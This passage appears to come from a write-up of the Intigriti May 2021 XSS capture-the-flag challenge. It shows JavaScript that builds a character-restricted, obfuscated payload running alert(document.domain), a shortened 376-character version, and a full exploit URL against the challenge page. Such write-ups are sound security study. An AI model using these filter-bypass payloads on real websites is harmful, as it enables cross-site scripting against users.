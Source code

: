 ``` js
  "[][" + 
  getString('some') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('alert(document.domain)') +
  "}```"

console.log('length:', ans.length)
console.log('======= Payload =======')
console.log(ans)
console.log('======= URL =======')
console.log('https://challenge-0521.intigriti.io/captcha.php?c=' + ans.replace(/\+/g, '%2b'))
```

## Further Shortening

After submitting the above code to the platform, the author said that the shortest code he saw was 376 characters. I thought about it for a while and couldn't come up with anything, then I had a sudden inspiration: "Let's try the `v` method, regardless of the browser issue."

Let's review the browser issue. The problem is that if we want to use the function to string method to get `v`, the results produced by Chrome and Firefox are different:

``` js
[]['some']+''

// Chrome
"function some() { [native code] }"
v: index 23

// Firefox
"function some() {
    [native code]
}"
v: index 27
```

So the same payload cannot be applied to both web pages.

Ignoring this issue, the resulting code is:

```
length: 376
======= Payload =======
[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[13]+`${e[0]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[13]]`_${`e`+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[23]+`${0/0}`[1]+`${e}`[21]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[13]+`${e}`[25]+`${0/0}`[1]+`${e}`[23]+`e`+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[14]}`` `
======= URL =======
https://challenge-0521.intigriti.io/captcha.php?c=[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`][`${e}`[5]%2b`${e}`[1]%2b`${e}`[25]%2b`${e}`[18]%2b`${e}`[6]%2b`${e}`[13]%2b`${e[0]}`[0]%2b`${e}`[5]%2b`${e}`[6]%2b`${e}`[1]%2b`${e}`[13]]`_${`e`%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[23]%2b`${0/0}`[1]%2b`${e}`[21]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[13]%2b`${e}`[25]%2b`${0/0}`[1]%2b`${e}`[23]%2b`e`%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[14]}`` `
```
